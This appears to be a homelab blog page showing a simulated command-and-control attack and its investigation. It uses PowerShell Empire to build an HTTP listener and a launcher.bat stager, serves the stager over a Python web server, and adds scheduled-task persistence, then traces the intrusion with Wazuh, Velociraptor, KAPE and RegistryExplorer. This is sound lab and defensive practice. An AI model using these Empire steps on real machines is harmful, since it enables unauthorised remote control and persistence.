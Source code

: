 ```yaml
---
{"dg-publish":true,"permalink":"/simulating-command-and-control-attack-and-defend/"}
---
```


[[Homelab Topology\|Homelab Topology]]
### Introduction
---
Command and Control also known as C2 is the base operation of a threat actor, this is where the attacker sends instructions to the compromised host, instructions could be anything such as exfiltrating sensitive information, establishing ransomware, and use the compromised machine to attack other machine, anything that the attacker wants.
## Prerequisites
---
- Velociraptor installed both server and client. [Install Velociraptor Server in Ubuntu](https://www.atlantic.net/dedicated-server-hosting/how-to-install-and-configure-velociraptor-on-ubuntu/)
- Windows VM.
- Kali Linux.
- Windows Server with Active Directory installed.
- Forensic Workstation: FlareVM and Remnux.
- Wazuh Installed
# Modules

Powershell-empire basics:

```C
sudo powershell-empire server
```

Create a listener:

```C
sudo powershell-empire client
(Empire:) > uselistener http
```

![Pasted image 20240928195850.png](/img/user/images/Pasted%20image%2020240928195850.png)
Then create a stager:

```C
(Empire: uselistener/http) > usestager windows_launcher_bat
(Empire: usestager/windows_launcher_bat) > set Listener http1
INFO: Set Listener to http1 
(Empire: usestager/windows_launcher_bat) > execute
INFO: launcher.bat written to /var/lib/powershell-empire/empire/client/generated-stagers/launcher.bat
```

Then serve it to the compromised machine via simple python server:

```C
cd /var/lib/powershell-empire/empire/client/generated-stagers
python3 -m http.server
```

Navigate to `http://<KALI_IP>:8000/`:

![Pasted image 20240928200633.png](/img/user/images/Pasted%20image%2020240928200633.png)
Download and execute the file (launcher will delete itself after execution), back to the kali linux:

![Pasted image 20240929162604.png](/img/user/images/Pasted%20image%2020240929162604.png)
Another screenshot:

![Pasted image 20240929162748.png](/img/user/images/Pasted%20image%2020240929162748.png)
Then we can use the command `interact <name>` to get a shell and to establish persistence:

```bash
usemodule powershell_persistence_userland_schtasks
set Listner http1
execute
```

Command Output:
![Pasted image 20240929163124.png](/img/user/images/Pasted%20image%2020240929163124.png)
# Analysis

At Wazuh:

![Pasted image 20240929163343.png](/img/user/images/Pasted%20image%2020240929163343.png)
However the problem is registry modifications and network connection was not logged, investigating further with Velociraptor:

![Pasted image 20240929165529.png](/img/user/images/Pasted%20image%2020240929165529.png)
In Velociraptor sidebar: "Hunt Manager > New Hunt > Fill Details" then choose and skip to launch:

![Pasted image 20240929165901.png](/img/user/images/Pasted%20image%2020240929165901.png)
Then run it and should see something like this after it is finishing hunting:

![Pasted image 20240929170049.png](/img/user/images/Pasted%20image%2020240929170049.png)
Then find the culprit:

![Pasted image 20240929170618.png](/img/user/images/Pasted%20image%2020240929170618.png)
- Suspicious arguments
- Use of base64
- Task name: Updater.

Now collecting and analysing forensic artificats with Velociraptor's built in plugin KAPE:

![Pasted image 20240929171007.png](/img/user/images/Pasted%20image%2020240929171007.png)
Then at the configure parameter select:

![Pasted image 20240929171120.png](/img/user/images/Pasted%20image%2020240929171120.png)
Then back at the same Window run the hunt and at the bottom there should be a download button:

![Pasted image 20240929171455.png](/img/user/images/Pasted%20image%2020240929171455.png)
Then I am going to open up FlareVM and analyse it with RegistryExplorer by Eric Zimmerman:

The registry hive we want is the compromised user's NTUSER.dat:

![Pasted image 20240929175654.png](/img/user/images/Pasted%20image%2020240929175654.png)
Then we can find it via `SOFTWARE/Microsoft/Windows/CurrentVersion`:

![Pasted image 20240929180729.png](/img/user/images/Pasted%20image%2020240929180729.png)
**Why here?**
- This place usually is for system configuration.
- Not the usual place blue teamers will look for such as in Registry: Run, RunOnce and more.

The decoded base64 is:

![Pasted image 20240929180936.png](/img/user/images/Pasted%20image%2020240929180936.png)
And the encoded base64 from the decoded is:

![Pasted image 20240929181006.png](/img/user/images/Pasted%20image%2020240929181006.png)

Knowing the file location we can simply delete it now.
























